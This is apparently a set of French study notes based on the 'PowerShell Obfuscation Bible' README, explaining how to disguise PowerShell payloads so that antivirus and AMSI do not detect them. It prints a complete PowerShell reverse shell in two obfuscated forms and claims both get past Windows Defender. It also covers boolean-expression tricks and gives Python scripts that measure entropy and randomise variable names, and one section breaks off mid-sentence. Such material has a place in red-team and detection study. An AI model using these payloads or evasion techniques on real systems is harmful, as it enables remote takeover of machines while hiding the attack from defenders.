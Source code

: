 Source : https://github.com/t3l3machus/PowerShell-Obfuscation-Bible/blob/main/README.md

L'**obfuscation** est le fait de **rendre** un payload **plus obscure** afin d'**évader** les protections **Antivirus**.

## __Entropy__

L'**entropie** est une notion mathématique qui vise à **mesurer** à quel point un **payload est aléatoire**, si une chaine est composé exclusivement d'un seul caractère son entropie sera 0, **plus il y a de caractère différent plus l'entropie va augmenter**, le calcul prend aussi en compte la **fréquence d'apparition** de ces caractères.

Pour la calculer on a implémenté la **formule de Claude E. Shannon** en python [voir scripts](PowerShell_Obfuscation##__Scripts__###Calculate_entropy).

![[Entropy1.png]]


## __Identify Detection Triggers__

Avant d'effectuer une tentative d'obscusissement du code, il faut **savoir ce qui déclanche l'alerte**, pour se faire, on peut utiliser **[AMSITrigger](https://github.com/RythmStick/AMSITrigger)**.

On peut également le faire à la main en regardant les erreurs.


## __Rename Objects__

Il est **important de renommer** le nom de **nos variables** en respectant le concept de [Entropie](PowerShell_Obfuscation.md##__Entropy__), cela rend le travail plus difficile pour les antivirus.

Voici un code détecté par les antivirus classique dont windows defender :

![[renameObj1.png]]

En remplaçant le nom des variables ainsi que **`(pwd).Path`** par **`$(gl)`**, on obtient un code que les antivirus ne découvre pas. 

```powershell
$84b5d7ab8755451cb386a79589e39fa8 = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181); $3b95c1d3d7dc4e4fa6474ce1bceae743 = $84b5d7ab8755451cb386a79589e39fa8.GetStream(); [byte[]] $367ad63a4a834bf5bb275aab24a4890c = 0..65535|%{0}; while(($d084ee484cf44c09b003024847840f3d = $3b95c1d3d7dc4e4fa6474ce1bceae743.Read($367ad63a4a834bf5bb275aab24a4890c, 0, $367ad63a4a834bf5bb275aab24a4890c.Length)) -ne 0){; $b16fd2353f0d413484e1583776256f61 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($367ad63a4a834bf5bb275aab24a4890c,0, $d084ee484cf44c09b003024847840f3d); $b396f8bb13ec47c28e4f721085e95361 = (iex $b16fd2353f0d413484e1583776256f61 2>&1 | Out-String ); $2bfb84697b834fa09479071ec68d6b19 = $b396f8bb13ec47c28e4f721085e95361 + 'PS' + $(gl) + '> '; $12e0e1f0c5e14474b53907ee11f75ed7 = ([text.encoding]::ASCII).GetBytes($2bfb84697b834fa09479071ec68d6b19); $3b95c1d3d7dc4e4fa6474ce1bceae743.Write($12e0e1f0c5e14474b53907ee11f75ed7,0, $12e0e1f0c5e14474b53907ee11f75ed7.Length);$3b95c1d3d7dc4e4fa6474ce1bceae743.Flush()}; $84b5d7ab8755451cb386a79589e39fa8.Close()
```

On peut également remplacer le nom des variables par x * 'f', ce qui donnerai quelques choses comme :

```powershell
$ffffffffffffffffffffffffffffffff = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181); $fffffffffffffffffffff = $ffffffffffffffffffffffffffffffff.GetStream(); [byte[]] $ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff = 0..65535|%{0}; while(($ffffffffffffffffffffffffffffffffffffffffffffffffffffff = $fffffffffffffffffffff.Read($ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff, 0, $ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff.Length)) -ne 0){; $fffff = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff,0, $ffffffffffffffffffffffffffffffffffffffffffffffffffffff); $b396f8bb13ec47c28e4f721085e95361 = (iex $fffff 2>&1 | Out-String ); $fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff = $b396f8bb13ec47c28e4f721085e95361 + 'PS' + $(gl) + '> '; $ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff= ([text.encoding]::ASCII).GetBytes($fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff); $fffffffffffffffffffff.Write($ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff,0, $ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff.Length);$fffffffffffffffffffff.Flush()}; $ffffffffffffffffffffffffffffffff.Close()
```

Cela donnera une **entropie bien inférieur** à celle précédente et a **probablement de meilleur chance** face au Antivirus.

Pour **modifier automatiquement** le nom des variables [voir scripts](PowerShell_Obfuscation##__Scripts__###Edit_variables_names).


## __Hide_Boolean_Values___

Il est facile de **replacer** **`$True`** ou **`$False`** par des **expressions boolean équivalentes**, voici une liste d'expression qui **renvoit True**, il suffit de rajouter un **!** avant le **\[bool]** pour **renvoyer False** ex: `![bool]1254`.

#### Not 0, null, empty String => True

```
[bool]1254
[bool]0x12AE
[bool][convert]::ToInt32("111011", 2) # Converts a string to int from base 2 (binary)
![bool]$null
![bool]$False
[bool]"Any non empty string"
[bool](-12354893)   # Boolean typecast of a negative number 
[bool](12 + (3 * 6))
[bool](Get-ChildItem -Path Env: | Where-Object {$_.Name -eq "username"})
[bool]@(0x01BE)
[bool][System.Collections.ArrayList]
[bool][System.Collections.CaseInsensitiveComparer]
[bool][System.Collections.Hashtable]
```

#### Any class => True

```
[bool][bool]
[bool][char]
[bool][int] 
[bool][string]
[bool][double]
[bool][short]
[bool][decimal]
[bool][byte]
[bool][timespan]
[bool][datetime]
```

#### Bool expression

```
(9999 -eq 9999)
([math]::Round([math]::PI) -eq (4583 - 4580))
[Math]::E -ne [Math]::PI
```

#### All of this

```
[bool](![bool]$null)
[System.Collections.CaseInsensitiveComparer] -ne [bool][datetime]'2023-01-01'
[bool]$(Get-LocalGroupMember Administrators)
!!!![bool][bool][bool][bool][bool][bool]
```


## __Quote_Interruption__

On peut placer des guillements entre les cmdlets de powershell afin d'obfusquer notre payload.
Un


## __Scripts__

### Calculate_entropy

Plus la valeur est proche de 0 moins les caractères sont aléatoire.

```python
#!/bin/python3
# Usage: python3 entropy.py <file>

import math, sys

def entropy(string):
    "Calculates the Shannon entropy of a UTF-8 encoded string"

    # decode the string as UTF-8
    unicode_string = string.decode('utf-8')

    # get probability of chars in string
    prob = [ float(unicode_string.count(c)) / len(unicode_string) for c in dict.fromkeys(list(unicode_string)) ]

    # calculate the entropy
    entropy = - sum([ p * math.log(p) / math.log(2.0) for p in prob ])

    return entropy


f = open(sys.argv[1], 'rb')
content = f.read()
f.close()

print(entropy(content))
```

### Edit_variables_names

Il faut faire attention car ce script n'est pas parfait et peut casser certaines fonctionnalité dans de gros programmes.

```python
#!/bin/python3
#
# This script is an example. It is not perfect and you should use it with caution.
# Source: https://github.com/t3l3machus/PowerShell-Obfuscation-Bible
# Usage: python3 randomize-variables.py <path/to/powershell/script>

import re
from sys import argv
from uuid import uuid4

def get_file_content(path):
	f = open(path, 'r')
	content = f.read()
	f.close()
	return content
	

def main():

	payload = get_file_content(argv[1])
	used_var_names = []

	# Identify variables definitions in script
	variable_definitions = re.findall('\$[a-zA-Z0-9_]*[\ ]{0,}=', payload)
	variable_definitions.sort(key=len)
	variable_definitions.reverse()

	# Replace variable names
	for var in variable_definitions:
		
		var = var.strip("\n \r\t=")

		while True:
			
			new_var_name = uuid4().hex
			
			if (new_var_name in used_var_names) or (re.search(new_var_name, payload)):
				continue
				
			else:
				used_var_names.append(new_var_name)
				break	
						
		payload = payload.replace(var, f'${new_var_name}')
	
	print(payload + '\n')

	
main()
```